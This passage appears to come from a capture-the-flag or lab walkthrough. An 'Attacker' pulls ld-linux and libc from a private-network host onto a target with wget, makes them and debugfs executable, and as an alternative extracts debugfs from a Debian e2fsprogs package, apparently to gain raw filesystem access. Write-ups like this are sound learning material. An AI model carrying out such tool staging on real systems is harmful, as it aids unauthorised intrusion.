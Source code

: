 `wget http://192.168.56.118/ld-linux-x86-64.so.2`:
```
--2024-10-16 15:34:34--  http://192.168.56.118/ld-linux-x86-64.so.2
Connecting to 192.168.56.118:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 210728 (206K) [application/octet-stream]
Saving to: ‘ld-linux-x86-64.so.2’

ld-linux-x86-64.so.2                            100%[====================================================================================================>] 205.79K  --.-KB/s    in 0.004s  

2024-10-16 15:34:34 (54.5 MB/s) - ‘ld-linux-x86-64.so.2’ saved [210728/210728]
```

`wget http://192.168.56.118/libc.so.6`:
```
--2024-10-16 15:34:42--  http://192.168.56.118/libc.so.6
Connecting to 192.168.56.118:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1933688 (1.8M) [application/octet-stream]
Saving to: ‘libc.so.6’

libc.so.6                                       100%[====================================================================================================>]   1.84M  --.-KB/s    in 0.03s   

2024-10-16 15:34:42 (61.5 MB/s) - ‘libc.so.6’ saved [1933688/1933688]
```

`chmod u+x ./debugfs ld-linux-x86-64.so.2 libc.so.6`

<🔄 Alternative Step.>

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`wget ftp.us.debian.org/debian/pool/main/e/e2fsprogs/e2fsprogs_1.47.0-2_amd64.deb`:
```                        
--2024-10-16 12:36:53--  http://ftp.us.debian.org/debian/pool/main/e/e2fsprogs/e2fsprogs_1.47.0-2_amd64.deb
Resolving ftp.us.debian.org (ftp.us.debian.org)... 64.50.236.52, 64.50.233.100, 208.80.154.139, ...
Connecting to ftp.us.debian.org (ftp.us.debian.org)|64.50.236.52|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 571372 (558K) [application/vnd.debian.binary-package]
Saving to: ‘e2fsprogs_1.47.0-2_amd64.deb’

e2fsprogs_1.47.0-2_amd64.deb                   100%[====================================================================================================>] 557.98K   357KB/s    in 1.6s    

2024-10-16 12:36:55 (357 KB/s) - ‘e2fsprogs_1.47.0-2_amd64.deb’ saved [571372/571372] ←
```

`dpkg-deb -x ./e2fsprogs_1.47.0-2_amd64.deb ./e2fsprogs`

`ls -l ./e2fsprogs`:
```
total 16
drwxr-xr-x 3 kali kali 4096 Mar  5  2023 etc
drwxr-xr-x 4 kali kali 4096 Mar  5  2023 lib
drwxr-xr-x 2 kali kali 4096 Oct 16 12:39 sbin
drwxr-xr-x 6 kali kali 4096 Mar  5  2023 usr
```
